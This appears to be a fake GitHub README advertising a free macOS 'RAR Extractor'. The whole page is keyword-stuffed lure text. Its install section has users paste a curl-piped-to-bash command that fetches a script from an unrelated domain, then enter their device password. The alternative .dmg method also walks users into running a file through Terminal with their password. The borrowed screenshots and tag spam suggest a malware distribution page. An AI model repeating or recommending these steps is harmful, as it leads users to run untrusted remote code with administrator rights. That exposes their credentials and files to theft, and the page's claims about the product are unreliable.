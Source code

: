 # 🗜️ RAR Extractor — Easy Unzip Tool for macOS

**RAR Extractor** is a lightweight and user-friendly utility for macOS that lets you quickly open and unzip RAR files with ease. Whether you need to extract single or multiple compressed files, RAR Extractor makes decompressing archives effortless and fast on your Mac.

Designed for seamless integration with macOS, this tool supports a variety of compressed formats alongside RAR, helping you manage your files without any hassle.

---

## ✅ Download RAR Extractor for macOS  
[![Download RAR Extractor](https://img.shields.io/badge/Download-RAR_Extractor-blueviolet)](https://rar-extractor-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is RAR Extractor?

RAR Extractor is a dedicated application for macOS that focuses on opening RAR archives and extracting their contents quickly and reliably. The app simplifies file decompression, enabling users to handle compressed files without complex procedures or extra software. Its intuitive interface makes it accessible for users of all skill levels.

---

## ✨ Features

- 🗂 Supports RAR, ZIP, 7Z, TAR, GZ, and other common archive formats  
- ⚡ Fast extraction speed with high reliability  
- 🧩 Drag and drop support for easy file importing  
- 🔒 Ability to extract password-protected archives  
- 📁 Batch extraction of multiple archives at once  
- 📱 Native macOS design optimized for Apple Silicon and Intel Macs  
- 🖥 Integration with Finder for quick preview and access  

---

## 💡 Why Use RAR Extractor?

- 🆓 Free and lightweight utility without unnecessary bloat  
- 🎯 Simple and intuitive interface tailored for macOS users  
- 🚀 Accelerated decompression for saving time  
- 🔐 Supports encrypted RAR files for secure extraction  
- 👨‍💻 Perfect for students, professionals, and casual Mac users alike  

---

[![Download RAR Extractor](https://img.shields.io/badge/Download-RAR_Extractor-blueviolet)](https://rar-extractor-download-mac.github.io/.github)

---

## 🖼 Preview

![RAR Extractor Screenshot 1](https://i.ytimg.com/vi/g-To9oh6QgQ/maxresdefault.jpg)  
![RAR Extractor Screenshot 2](https://cdn.theunarchiver.com/img/unarchiver-screenshot-01.png)

---

## 📌 Tags

open rar on mac, unzip rar mac, unzip rar files mac, free rar opener for mac,  
mac how to open a rar file, mac os unzip rar, osx unzip rar, rar unzip mac free,  
unzip a rar file mac, mac rar file extractor, download rar extractor mac, download rar opener for mac,  
free rar file opener mac, mac open rar free, mac os open rar file, macbook open rar file,  
macbook unzip rar, open rar file mac online, open rar file on mac online, open rar files mac online,  
rar unzip download mac

---

